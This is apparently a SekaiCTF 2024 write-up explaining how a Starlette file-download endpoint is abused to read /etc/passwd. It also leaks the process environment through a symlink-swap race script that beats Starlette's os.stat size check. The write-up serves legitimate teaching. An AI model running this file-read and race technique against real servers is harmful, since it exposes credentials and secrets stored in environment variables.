



## funny-lfr sekaictf2024
183 points - 36 solves

**Challenge author**: irogir

{: .note }
This challenge came with an ssh access for `convenience`, but we ended up using it as part of the solve...

### Challenge Description: 
Funny lfr

We are given a Starlette server that looks like this:

```python
from starlette.applications import Starlette
from starlette.routing import Route
from starlette.responses import FileResponse


async def download(request):
    return FileResponse(request.query_params.get("file"))


app = Starlette(routes=[Route("/", endpoint=download)])
```

And a Dockerfile that looks like this:

```Dockerfile
FROM python:3.9-slim

RUN pip install --no-cache-dir starlette uvicorn

WORKDIR /app

COPY app.py .

ENV FLAG="SEKAI{test_flag}"

CMD ["uvicorn", "app:app", "--host", "0", "--port", "1337"]
```

From the Dockerfile, we need to read an environment variable named FLAG to get the flag.

The website serves us any file from the server.

Spinning up the Dockerfile on port 1337 locally, we can go to `http://localhost:1337/?file=/etc/passwd` and get the contents of the `/etc/passwd` file.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Typically on linux systems, the current process environment variables are stored in `/proc/<pid>/environ`. The current process has its environment variables in `/proc/self/environ`. We can use this to read the environment variables of the running process.

At first glance this seems easy right? Just go to `http://localhost:1337/?file=/proc/self/environ` and we should get the flag.

But when we try to do that, we are recieved by an empty page?



Checking the error logs of the server we see 
```
h11._util.LocalProtocolError: Too much data for declared Content-Length
```

How can such a small file be too much data for the declared Content-Length?

After taking a closer look at Starlette's source code on github, we find that it [uses os.stat to determine file size](https://github.com/encode/starlette/blob/master/starlette/responses.py#L325).



Lets see what stat says about our `/proc/self/environ` file.


Strangely enough it says the file size is 0 bytes. But we know that the file is not empty.

After some research this is because the `/proc` directory is actually in the `procfs` filesystem. This filesystem is a virtual filesystem that doesnt contain actual files. [See more info on procfs here](https://en.wikipedia.org/wiki/Procfs).

My first thought now, is to try and find some other file that might contain a process's environment variables.

I was curious about where the kernel stores the environment variables of a process, and took a deep dive into the c `getenv` function. Ultimately this ended up being a dead end.

I also wrote a small script to search every single file on the file system for the word `SEKAI{` and found nothing.

After being stuck at this step for a while, a teammate of mine came up with the idea that there could be a race condition with `os.stat` and symlinks.

A [symlink](https://www.komprise.com/glossary_terms/symbolic-link/) is a file that points to another file. If we can create a symlink to a random file with content-length greater than the length of `/proc/self/environ` , we can try to swap the symlink to `/proc/self/environ` while the server is running `os.stat`.

This way, the server stats a file with a large content-length, then the symlink is swapped to `/proc/self/environ`, and then the server reads from `/proc/self/environ` instead of the original file.

A small diagram of this is shown below.



What's the best way to achieve this race condition? 

Beloved `brute force` of course!

{: .note }
`/proc/self/environ` will be different for each process, so we need to find out the pid of the server with something like `ps aux` and replace `self` with the pid. From now on I will be using this `pid`, in my case `7` in place of `self`.

Since this challenge gives us ssh access for some reason, we can write a bash script to repeatedly swap the symlink between some large file and `/proc/7/environ`.

The script is shown below:

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/bruh
ln -s /tmp/bruh /tmp/asd

while true; do
    ln -sf /proc/7/environ /tmp/asd
    ln -sf /tmp/bruh /tmp/asd
done
```

The script echos 5000 `A`'s into a file `/tmp/bruh`, and then creates a symlink `/tmp/asd` to `/tmp/bruh`.

Then it enters an infinite loop, where it swaps the symlink between `/proc/7/environ` and `/tmp/bruh`.

We can run this script on the server, and then spam curl requests to `http://localhost:1337/?file=/tmp/asd` until we get the flag.

Trying this on remote we get... `Internal Server Error`?

What is going on? The script worked locally but on remote we get an internal server error?

After some debugging we find that `/tmp` is a directory that has the [sticky bit](https://en.wikipedia.org/wiki/Sticky_bit) set. This gives the webserver permission denied when it tries access the contents of the symlink.

We can fix this by creating a new directory in `/tmp` and running the script there.

Here I call this directory `b`, and we can rereun the script in the `/tmp/b` directory.

```bash
#! /bin/bash

echo -n $(printf 'A%.0s' {1..5000}) > /tmp/b/bruh
ln -s /tmp/b/bruh /tmp/b/asd

while true; do
    ln -sf /proc/7/environ /tmp/b/asd
    ln -sf /tmp/b/bruh /tmp/b/asd
done
```

Running this on remote, and spamming a couple curl requests gets the content of `/proc/7/environ` and we get the flag!

SEKAI{b04aef298ec8d45f6c62e6b6179e2e66de10c542}

### My Thoughts

This was a fun challenge that was seemingly easy at first, but ended up being a bit more difficult than anticipated. I decided to write this one up even though it had a lot of solves because it used the Starlette library itself as a jail, and I thought that was pretty cool. 

Also [funny video of solve here](https://streamable.com/iajafe)


